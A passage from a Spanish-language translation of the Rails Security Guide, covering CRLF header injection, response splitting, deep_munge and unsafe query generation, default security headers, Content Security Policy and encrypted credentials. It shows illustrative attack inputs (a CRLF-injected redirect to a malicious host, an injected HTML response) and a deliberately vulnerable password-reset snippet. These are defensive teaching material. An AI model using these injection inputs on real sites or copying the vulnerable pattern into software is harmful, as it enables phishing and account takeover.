Tenga en cuenta que %0d%0a está codificado en URL para \r\n, que es un retorno de carro y un avance de línea (CRLF) en Ruby. Entonces, el encabezado HTTP resultante para el segundo ejemplo será el siguiente porque el segundo campo de encabezado de Ubicación sobrescribe al primero.
HTTP/1.1 302 Moved Temporarily
(...)
Location: http://www.malicious.tld
Entonces, los vectores de ataque para la inyección de encabezado se basan en la inyección de caracteres CRLF en un campo de encabezado. ¿Y qué podría hacer un atacante con una redirección falsa? Podrían redirigir a un sitio de phishing que tiene el mismo aspecto que el suyo, pero pedirán volver a iniciar sesión (y enviarán las credenciales de inicio de sesión al atacante). O podrían instalar software malicioso a través de los agujeros de seguridad del navegador en ese sitio. Rails 2.1.2 escapa estos caracteres para el campo Ubicación en el método redirect_to. Asegúrese de hacerlo usted mismo cuando cree otros campos de encabezado con la entrada del usuario.
7.8.1 Response Splitting
Si la inyección de encabezado fuera posible, la división de respuesta también podría serlo. En HTTP, el bloque de encabezado va seguido de dos CRLF y los datos reales (generalmente HTML). La idea de la división de respuestas es inyectar dos CRLF en un campo de encabezado, seguido de otra respuesta con HTML malicioso. La respuesta será:
HTTP/1.1 302 Found [First standard 302 response]
Date: Tue, 12 Apr 2005 22:09:07 GMT
Location:
Content-Type: text/html
HTTP/1.1 200 OK [Second New response created by attacker begins]
Content-Type: text/html
<html><font color=red>hey</font></html> [Arbitrary malicious input is
Keep-Alive: timeout=15, max=100 shown as the redirected page]
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
En determinadas circunstancias, esto presentaría el HTML malicioso a la víctima. Sin embargo, esto solo parece funcionar con las conexiones Keep-Alive (y muchos navegadores usan conexiones únicas). Pero no puedes confiar en esto. En cualquier caso, se trata de un error grave, y debería actualizar sus Rails a la versión 2.0.5 o 2.1.2 para eliminar los riesgos de la inyección de encabezado (y por lo tanto la división de respuestas) .
8 Unsafe Query Generation
Debido a la forma en que Active Record interpreta los parámetros en combinación con la forma
que Rack analiza los parámetros de consulta fue posible emitir una base de datos inesperada
consultas con cláusulas where IS NULL. Como respuesta a ese problema de seguridad
(CVE-2012-2660,
CVE-2012-2694
and CVE-2013-0155)
deep_munge el método se introdujo como una solución para mantener Rails seguro de forma predeterminada.
Ejemplo de código vulnerable que podría ser utilizado por el atacante, si deep_munge
no se realizó es:
unless params[:token].nil?
user = User.find_by_token(params[:token])
user.reset_password!
end
Cuando params [: token] es uno de: [nil], [nil, nil, ...] o
['foo', nil] omitirá la prueba para nil, peroIS NULL o
IN ('foo', NULL) donde todavía se agregarán cláusulas a la consulta SQL.
Para mantener Rails seguro por defecto, deep_munge reemplaza algunos de los valores con
nil. La siguiente tabla muestra cómo se ven los parámetros según el JSON enviado
solicitud:
| JSON | Parameters |
|---|---|
{ "person": null } |
{ :person => nil } |
{ "person": [] } |
{ :person => [] } |
{ "person": [null] } |
{ :person => [] } |
{ "person": [null, null, ...] } |
{ :person => [] } |
{ "person": ["foo", null] } |
{ :person => ["foo"] } |
Es posible volver al comportamiento anterior y deshabilitar la configuración de deep_munge
su aplicación si es consciente del riesgo y sabe cómo manejarlo:
config.action_dispatch.perform_deep_munge = false
9 Default Headers
Cada respuesta HTTP de su aplicación Rails recibe los siguientes encabezados de seguridad predeterminados.
config.action_dispatch.default_headers = {
'X-Frame-Options' => 'SAMEORIGIN',
'X-XSS-Protection' => '1; mode=block',
'X-Content-Type-Options' => 'nosniff',
'X-Download-Options' => 'noopen',
'X-Permitted-Cross-Domain-Policies' => 'none',
'Referrer-Policy' => 'strict-origin-when-cross-origin'
}
Puede configurar encabezados predeterminados en config/application.rb.
config.action_dispatch.default_headers = {
'Header-Name' => 'Header-Value',
'X-Frame-Options' => 'DENY'
}
O puedes eliminarlos.
config.action_dispatch.default_headers.clear
Aquí hay una lista de encabezados comunes:
-
X-Frame-Options:
SAMEORIGINin Rails by default - Permitir enmarcar en el mismo dominio. Configúrelo en 'DENY' para denegar el encuadre o elimine este encabezado por completo si desea permitir el encuadre en todos los sitios web. -
X-XSS-Protection:
1; mode=blockin Rails by default - use XSS Auditor y bloquee la página si se detecta un ataque XSS. Póngalo en '0;' si desea desactivar XSS Auditor (útil si la respuesta contiene scripts de parámetros de solicitud) -
X-Content-Type-Options:
nosniffin Rails by default - evita que el navegador adivine el tipo MIME de un archivo. - X-Content-Security-Policy: A powerful mechanism for controlling which sites certain content types can be loaded from
- Access-Control-Allow-Origin: Se utiliza para controlar qué sitios pueden omitir las mismas políticas de origen y enviar solicitudes de origen cruzado.
- Strict-Transport-Security: Used to control if the browser is allowed to only access a site over a secure connection
9.1 Content Security Policy
Rails proporciona un DSL que le permite configurar un Content Security Policy para su aplicación. Puede configurar una política predeterminada global y luego anularlo por recurso e incluso usar lambdas para inyectar por solicitud valores en el encabezado, como subdominios de cuenta en una aplicación de múltiples inquilinos.
Ejemplo de política global:
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy do |policy|
policy.default_src :self, :https
policy.font_src :self, :https, :data
policy.img_src :self, :https, :data
policy.object_src :none
policy.script_src :self, :https
policy.style_src :self, :https
# Specify URI for violation reports
policy.report_uri "/csp-violation-report-endpoint"
end
Ejemplo de anulaciones del controlador:
# Override policy inline
class PostsController < ApplicationController
content_security_policy do |p|
p.upgrade_insecure_requests true
end
end
# Using literal values
class PostsController < ApplicationController
content_security_policy do |p|
p.base_uri "https://www.example.com"
end
end
# Using mixed static and dynamic values
class PostsController < ApplicationController
content_security_policy do |p|
p.base_uri :self, -> { "https://#{current_user.domain}.example.com" }
end
end
# Disabling the global CSP
class LegacyPagesController < ApplicationController
content_security_policy false, only: :index
end
Utilice el content_security_policy_report_only
atributo de configuración para establecer
Content-Security-Policy-Report-Only
para informar solo infracciones de contenido para la migración
contenido heredado
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy_report_only = true
# Controller override
class PostsController < ApplicationController
content_security_policy_report_only only: :index
end
Puede habilitar la generación automática de nonce:
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy do |policy|
policy.script_src :self, :https
end
Rails.application.config.content_security_policy_nonce_generator = -> request { SecureRandom.base64(16) }
Luego puede agregar un valor de nonce automático pasando nonce: true
como parte de html_options. Ejemplo:
<%= javascript_tag nonce: true do -%>
alert('Hello, World!');
<% end -%>
Lo mismo funciona con javascript_include_tag:
<%= javascript_include_tag "script", nonce: true %>
Utilice csp_meta_tag
ayudante para crear una metaetiqueta "csp-nonce" con el valor nonce por sesión
para permitir etiquetas <script> en línea.
<head>
<%= csp_meta_tag %>
</head>
Esto lo utiliza el ayudante de Rails UJS para crear dinámicamente
elementos <script> en línea cargados.
10 Environmental Security
Está fuera del alcance de esta guía informarle sobre cómo proteger el código y los entornos de su aplicación. Sin embargo, asegure la configuración de su base de datos, p. Ej. config / database.yml, clave maestra paracredentials.yml y otros secretos no cifrados. Es posible que desee restringir aún más el acceso, utilizando versiones específicas del entorno de estos archivos y cualquier otro que pueda contener información confidencial.
10.1 Custom Credentials
Rails almacena secretos en config/credentials.yml.enc, que está encriptado y, por lo tanto, no se puede editar directamente. Rails usa config/master.key o alternativamente busca la variable de entorno ENV["RAILS_MASTER_KEY"]para cifrar el archivo de credenciales. El archivo de credenciales se puede almacenar en el control de versiones, siempre que la clave maestra se mantenga segura.
Para agregar un nuevo secreto a las credenciales, primero ejecute bin/rails secret para obtener un nuevo secreto. Luego ejecute bin/rails credentials:edit para editar las credenciales y agregue el secreto. La ejecución de credentials:edit crea un nuevo archivo de credenciales y una clave maestra, si aún no existían.
De forma predeterminada, este archivo contiene los
secret_key_base, pero también podría usarse para almacenar otras credenciales, como claves de acceso para API externas.
Los secretos guardados en el archivo de credenciales son accesibles a través de Rails.application.credentials.
Por ejemplo, con el siguiente config/credentials.yml.enc descifrado:
secret_key_base: 3b7cd727ee24e8444053437c36cc66c3
some_api_key: SOMEKEY
Rails.application.credentials.some_api_key devuelve SOMEKEY" en cualquier entorno.
Si desea que se genere una excepción cuando alguna clave está en blanco, use el bang versión:
Rails.application.credentials.some_api_key! # => raises KeyError: :some_api_key is blank
Obtenga más información sobre las credenciales con bin/rails credentials: help.
Mantenga su llave maestra segura. No confíe su clave maestra.
11 Dependency Management and CVEs
No modificamos las dependencias solo para fomentar el uso de nuevas versiones, incluso para problemas de seguridad. Esto se debe a que los propietarios de aplicaciones necesitan actualizar manualmente sus gemas independientemente de nuestros esfuerzos. Utilice bundle update --conservative gem_name para actualizar de forma segura las dependencias vulnerables.
12 Additional Resources
El panorama de la seguridad cambia y es importante mantenerse actualizado, porque perder una nueva vulnerabilidad puede ser catastrófico. Puede encontrar recursos adicionales sobre la seguridad de (Rails) aquí:
- Suscríbase a la lista de correo de seguridad Rails mailing list.
- Brakeman - Rails Security Scanner - ara realizar análisis de seguridad estática para aplicaciones Rails.
- Keep up to date on the other application layers (también tienen un boletín semanal).
- A good security blog que incluye la Cross-Site scripting Cheat Sheet.
Comentarios Sobre el Contenido
Las guías de rieles se administran y publican en latinadeveloper/railsguides.es en GitHub.
Si lee esta guía y encuentra algún texto o código incorrecto que le interese, no dude en enviar una solicitud de extracción en el repositorio anterior. Consulte el archivo README en GitHub para saber cómo enviar una solicitud de extracción. Please contribute if you see any typos or factual errors.